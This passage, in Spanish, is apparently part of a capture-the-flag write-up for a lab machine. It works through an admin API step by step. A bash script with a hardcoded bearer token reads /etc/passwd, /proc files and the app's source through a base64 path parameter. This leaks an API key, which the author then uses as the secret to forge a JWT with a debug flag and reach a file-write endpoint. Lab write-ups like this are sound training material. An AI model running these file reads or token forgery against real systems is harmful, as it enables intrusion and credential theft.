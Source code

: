 Recordamos la linea que leímos en el openapi.json:
```"description": "Returns a file on the server. File name input is encoded in base64_url"```
El archivo /etc/passwd en base64 sin salto de linea es asi ```echo -n "/etc/passwd" | base64 # -> L2V0Yy9wYXNzd2Q=```
Si ponemos eso en la web nos devuelve el /etc/passwd, pero la url nos sale como 
```http://10.10.11.162/api/v1/admin/file/L2V0Yy9wYXNzd2Q%3D```, es decir nos urlencodea el "=" a "%3D"
```console
#!/bin/bash
bearer="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NjY3LCJpYXQiOjE2Njc1NjQ0NjcsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3In0.8N5hggb5u-NdfZLYLUHxvpmR6w5j3c5VKEipM7VD-2c"

file=$1
file64="$(echo -n $file | base64)"  # el archivo sin el "=" que equivale al salto de linea y da problemas en url
curl -s -X GET "http://10.10.11.162/api/v1/admin/file/$file64" -H 'accept: application/json' \
-H "Authorization: bearer $bearer" | sed 's/\\n/\n/g' | sed 's/\\u0000/\n/g' ; echo
```
```console
└─$ ./files.sh /etc/passwd | grep "sh$"
{"file":"root:x:0:0:root:/root:/bin/bash
htb:x:1000:1000:htb:/home/htb:/bin/bash # Usuarios del sistema
└─$ for port in $(./files.sh /proc/net/tcp | awk '{print $2}' | awk '{print $2}' FS=":"); do echo "$((16#$port))" | tr "\n" ","; done 
80,53,22,52242,52240,52248,44026,52250,80 # Puertos abiertos
└─$ ./files.sh /proc/net/fib_trie | grep "LOCAL" -B 1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | tr "\n" ","
10.10.11.162,127.0.0.1 # Interfaces abiertas, no hay contenedores
└─$ ./files.sh /proc/self/environ
HOME=/home/htb
APP_MODULE=app.main:app
PWD=/home/htb
API_KEY=68b329da9893e34099c7d8ad5cb9c940
```
Igual que en la maquina anterior :V
```console
└─$ ./files.sh /home/htb/app/main.py > main.py
# Tenemos estas rutas
from app.schemas.user import User # -> /app/schemas/user.py 
from app.api.v1.api import api_router # -> nos lleva a /home/htb/app/api/v1/endpoints/user.py 
from app.core.config import settings # -> /app/core/config.py
from app.api import deps
from app import crud 
```
No existe la ruta de ejecutar comandos pero si hay otra pera escribir archivos.
Sabemos por las varaibles que estamos en **/home/htb/** y ahí existe **/app/** que tiene el codigo fuente de la api como **main.py**. Aquí nos dicen 
que esto está en base64 también, Imaginemos el archivo /home/htb/test.
```console
└─$ curl -X 'POST' 'http://10.10.11.162/api/v1/admin/file/L2hvbWUvaHRiL3Rlc3Q%3D' \
  -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"file": "Test"}' \
  -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ..."
{"detail":"Debug key missing from JWT"}
```
Tenemos la key de la api para poder crear la cookie que nos de la gana. 
```
>>> import jwt
>>> token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NjY3LCJpYXQiOjE2Njc1NjQ0NjcsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3In0.8N5hggb5u-NdfZLYLUHxvpmR6w5j3c5VKEipM7VD-2c"
>>> secret = "68b329da9893e34099c7d8ad5cb9c940"
>>> cookie = jwt.decode(token, secret, ["HS256"])
>>> cookie["debug"] = True
>>> jwt.encode(cookie, secret, "HS256")
```